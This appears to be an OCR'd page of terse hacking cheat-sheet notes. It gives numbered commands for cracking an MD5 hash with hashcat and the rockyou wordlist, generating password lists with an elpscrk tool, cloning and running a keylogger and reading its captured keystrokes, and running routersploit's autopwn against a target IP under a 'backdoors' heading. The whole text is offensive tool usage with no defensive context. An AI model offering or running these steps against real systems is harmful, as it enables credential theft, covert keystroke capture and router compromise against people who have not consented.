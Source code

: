 #hashcat
 1.echo -n "mansoor" | md5sum | tr -d " -" | tee hashes.txt
2.hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt.gz --force
#REMOTE password
1.git clone https://github.com/D4Vinci/elpscrk
2.cd elpscrk
3.pip3 install -r requirements.txt 
4.python elpscrk.py -c -l 0 --min 8 --max 12
5. cat passwords.txt
#keyloggers
1.git clone https://github.com/iam-orsu/orsulogger.git
2.cd orsulogger/
3. pip3 install -r req.txt
4.python orsulogger.py
5.cat keyfile.txt
#backdoors
1. sudo apt install routersploit
2. show scanners
3. use scanners/autopwn
4. show options
5. set target 192.168.121.8
6. run
